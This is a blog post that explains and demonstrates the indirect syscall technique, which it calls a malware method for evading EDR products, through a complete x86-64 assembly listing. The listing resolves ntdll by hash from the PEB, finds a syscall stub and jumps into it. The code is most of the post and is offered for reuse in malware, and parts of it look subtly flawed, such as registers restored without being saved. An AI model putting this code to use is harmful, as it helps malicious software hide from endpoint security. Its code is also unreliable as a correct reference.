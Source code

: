 +++
title = 'Simplest Indirect Syscall'
date = 2022-11-11T16:40:16-05:00
draft = false
+++

Indirect syscalls are nothing new in the realm of malware techniques. However, their usefulness cannot be understated.

When dealing with the current era of highly imperfect EDR solutions, indirect syscalls are very effective, especially in combination with other techniques.

This post does not aim to exhaustively explain the technique, but rather demonstrate it in x86-64 native assembly. The general premise is to avoid embedding the `syscall` instruction directly in malware code. In its simplest form, it is done by finding the `syscall` bytes (`0f 05`) somewhere and jumping directly to them, with the return address set somewhere we can regain control. With this method there are flaws and room for improvement exists. However, its generally acceptable in my experience.

The below code demonstrates the the technique very simply
{{< footnote >}}The assembler in use is UASM, which can be found at https://github.com/Terraspace/UASM. It is a MASM syntax assembler with great features, including structure offset calculation, abstract looping, automatic stack space handling, and more. It makes writing x64 assembly less of a hair-pulling experience.{{< /footnote>}}. A pattern is used to find a syscall stub in `ntdll`. Following this, the return address is manually set using a trick to get `rip` and adding the size of the instructions leading up to and including the `jmp` to the stub. The rest of the syscall stub operates like normal.

```asm
; <main.asm>       -      Direct Syscall JOP Toy
;                              November 2022                     
;                                                                              
option win64:0x08, casemap:none, frame:auto, stackbase:rsp
include win.inc                                                                

hash_basis      equ            0xC59D1C81
hash_prime      equ            0x01000193
hash_ntdll      equ            0x8B9A6A34
                                                                      
find_bytes      proto :qword, :qword, :qword, :qword
get_gadget      proto :qword

text segment align(16) 'code' read execute 
syscall_stub_sig:
    db 0x4c, 0x8B, 0xD1, 0xB8        

start proc 
    mov     rcx, hash_ntdll
    call    getmod
    invoke  get_gadget, rax
    mov     rbx, rax
    call    get_rip
    add     rax, 0x0b
    push    rax
    mov     eax, 0x18
    jmp     rbx
    ret
start endp

get_rip:
    mov     rax, [rsp]
    ret

get_gadget proc base:qword
    local   @rbx:qword
    local   @rsi:qword
    local   @rdi:qword
    local   aof:qword
    local   aoo:qword
    mov     @rbx, rbx
    mov     @rsi, rsi
    mov     rax, base
    mov     rdi, base
    mov     eax, [rdi].dos_hdr.e_lfanew
    add     rax, base
    lea     rax, [rax].nt_hdr.opt.d_dir
    mov     ebx, [rax].img_data_dir.va
    add     rbx, base
    mov     eax, [rbx].exp_dir.aof
    add     rax, rdi
    mov     aof, rax
    mov     eax, [rbx].exp_dir.aoo
    add     rax, rdi
    mov     aoo, rax
    xor     esi, esi
_loop:
    cmp     esi, [rbx].exp_dir.n_names
    je      _done
    mov     rcx, aoo
    xor     eax, eax
    mov     ax, [rcx+rsi*2]
    mov     rcx, aof
    mov     eax, [rcx+rsi*4]
    add     rax, base
    mov     rbx, rax
    mov     rcx, rax
    lea     rdx, syscall_stub_sig
    inc     rsi
    invoke find_bytes, rcx, rdx, 4, 4
    test    eax, eax
    jz      _loop
    mov     rax, rbx
_done:
    add     rax, 18
    mov     rdi, @rdi
    mov     rsi, @rsi
    mov     rbx, @rbx
    retn                                    
get_gadget endp

getmod proc hash:qword                      
    local   first:qword                     
    local   curr:qword                      
    local   @rbx:qword
    local   @rsi:qword
    local   @rdi:qword
    mov     @rbx, rbx
    mov     @rsi, rsi
    mov     @rdi, rdi
    mov     rdi, rcx                        
    mov     rsi, [gs:0x60]                  
    mov     rsi, [rsi].peb.ldr              
    mov     rsi, [rsi].pld.moml.fw-10h      
    mov     first, rsi                      
    mov     rbx, [rsi].ldte.moml.fw-10h     
    mov     curr, rbx                       
_loop:                                      
    lea     rcx, [rbx].ldte.basename.buffer 
    xor     edx, edx
    mov     dx, [rbx].ldte.basename.len     
    call    gethash                         
    cmp     rax, rdi                        
    je      _match                          
    mov     rbx, [curr].ldte.moml.fw-10h    
    mov     rbx, [rbx]
    mov     curr, rbx
    cmp     rbx, first                      
    je      _done                           
    jmp     _loop                           
_match:                                     
    mov     rax, [rbx].ldte.dllbase         
_done:                                      
    mov     rdi, @rdi
    mov     rsi, @rsi
    mov     rbx, @rbx
    retn                                    
getmod endp                                 

gethash proc src:qword, len:dword 
    local   @rbx:qword
    local   @rsi:qword
    local   @rdi:qword
    mov     @rbx, rbx
    mov     @rsi, rsi
    mov     @rdi, rdi
    xor     rbx, rbx                        
    mov     rsi, rcx                        
    xor     ecx, ecx                        
    mov     eax, hash_basis                 
_loop:                                      
    cmp     ecx, edx                        
    je      _done                           
    xor     ebx, ebx                        
    mov     bl, [rsi+rcx]                   
    xor     eax, ebx                        
    mov     edi, hash_prime                 
    imul    eax, edi                        
    inc     ecx                             
    jmp     _loop                           
_done:                                      
    mov     rdi, @rdi
    mov     rsi, @rsi
    mov     rbx, @rbx
    retn                                    
gethash endp            

find_bytes proc src:qword, buf:qword, len:qword, max:qword
    local   @rbx:qword
    local   @rsi:qword
    local   @rdi:qword
    local   @r10:qword
    local   res:qword
    mov     @rbx, rbx
    mov     @rsi, rsi
    mov     @rdi, rdi
    mov     @r10, r10
    mov     res, 0
    xor     r10, r10
_loop:
    mov     rcx, r10
    add     rcx, len
    cmp     rcx, max
    ja      _done
    mov     rcx, src
    mov     rdx, buf
    mov     r8, len
    mov     rax, src
    inc     src
    inc     r10
    call    memcmp
    test    eax, eax
    jz      _loop
_done:
    mov     res, rax
    mov     rdi, @rdi
    mov     rdi, @rdi
    mov     rsi, @rsi
    mov     rbx, @rbx
    ret
find_bytes endp

memcmp proc src:qword, dst:qword, len:dword
    local   @rbx:qword
    mov     @rbx, rbx
    xor     r9, r9
_loop:
    cmp     r9, r8
    je      _done
    xor     eax, eax
    mov     bl, [rcx+r9]
    cmp     [rdx+r9], bl
    jne     _done
_match:
    mov     eax, 1
    inc     r9
    jmp     _loop
_done:
    mov     rbx, @rbx
    ret
memcmp endp

text ends
end
```